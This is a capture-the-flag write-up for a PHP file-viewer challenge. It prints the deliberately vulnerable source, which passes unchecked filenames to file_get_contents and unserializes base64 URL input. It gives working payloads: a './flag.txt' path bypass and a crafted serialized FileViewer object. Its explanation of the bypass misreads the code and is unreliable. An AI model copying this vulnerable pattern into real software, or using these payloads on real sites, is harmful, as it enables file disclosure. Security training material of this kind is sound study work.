 ```yaml
---
title: undynamic nosql
---
```


# Undynamic NoSQL

Upon first viewing of the web page, we get this:

![index](./1.png)

The expected functionality is that the web page will display a file from the drop down list.

![display](./2.png)

## Challenge Begins

The first thing to do was view the page source where the following comments appeared:

```
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
```

Modifying the GET request by changing the filename parameter value in the URL to access index.php showed:

view-source://xx.xx.xx.xx/?filename=index.php

```
<html>
<h1>FileViewer</h1>
<form action="/">
<select name="filename">
<!--<option value=".">.</option>-->
<!--<option value="..">..</option>-->
<option value=".htacccess">.htacccess</option>
<option value="DemoController.cs">DemoController.cs</option>
<option value="factorial.js">factorial.js</option>
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
<option value="main_test.go">main_test.go</option>
<option value="my.log">my.log</option>
<option value="setup.py">setup.py</option>
</select>
<input type="submit" value="submit">
</form>
<p>Want to save your File View? Bookmark this url: <a href="/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo5OiJpbmRleC5waHAiO30=">Bookmark me!</a></p>
<?php<br />
session_start();<br />
//parse_str(implode('&', array_slice($argv, 1)), $_GET);<br />
?><br />
<html><br />
<h1>FileViewer</h1><br />
<?php<br />
class FileViewer<br />
{<br />
   var $filename = "";<br />
<br />
   function __construct($filename)<br />
   {<br />
      $this->filename = $filename;<br />
   }<br />
<br />
   function __toString()<br />
   {<br />
      if (!empty($this->filename))<br />
      {<br />
         return file_get_contents($this->filename);<br />
      }<br />
      else<br />
      {<br />
         return "No file!";<br />
      }<br />
   }<br />
}<br />
?><br />
<form action="/"><br />
<select name="filename"><br />
<?php<br />
$files = scandir(".");<br />
foreach ($files as $f)<br />
{<br />
   $select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />
   if ($f == "." or $f == ".." or $f == "index.php" or $f == "flag.txt")<br />
   {<br />
      $select_val = "<!--" . $select_val . "-->";<br />
   }<br />
   echo $select_val . "\n";<br />
}<br />
?><br />
</select><br />
<input type="submit" value="submit"><br />
</form><br />
<?php<br />
$my_view = NULL;<br />
if (isset($_GET["filename"]) and !empty($_GET["filename"]) and $_GET["filename"] != "flag.txt")<br />
{<br />
   $my_view = new FileViewer($_GET["filename"]);<br />
   $my_view_b64 = base64_encode(serialize($my_view));<br />
   echo '<p>Want to save your File View? Bookmark this url: <a href="/?view=' . $my_view_b64 . '">Bookmark me!</a></p>';<br />
   echo "\n";<br />
}<br />
elseif (isset($_GET["view"]) and !empty($_GET["view"]))<br />
{<br />
   $my_view = unserialize(base64_decode($_GET["view"]));<br />
}<br />
<br />
if (isset($my_view) and !empty($my_view))<br />
{<br />
   echo nl2br($my_view);<br />
}<br />
?><br />
</html><br />
</html>
```

There appeared to be a bug in 

`$select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />` 

which did not properly prevent access to index.php and directory traversal.

Thus, the flag was accessible via editing the filename parameter like so: 

xx.xx.xx.xx/?filename=./flag.txt

The less trivial and likely intended method for solving the challenge is demonstrated by the link saving functionality where the parameter is base64 encoded and passed instead.

An example parameter:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czoxNzoiRGVtb0NvbnRyb2xsZXIuY3MiO30=

Decoding the base64 encoded string showed the parameter in the following format:

`O:10:"FileViewer":1:{s:8:"filename";s:17:"DemoController.cs";}`

This format was used to write a parameter to access flag.txt:

`O:10:"FileViewer":1:{s:8:"filename";s:8:"flag.txt";}`

Encoding it to base64 and passing it to the parameter provided access to the flag:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo4OiJmbGFnLnR4dCI7fQ==

BSidesSA{pea_8ch_pea_1s_gr34t}

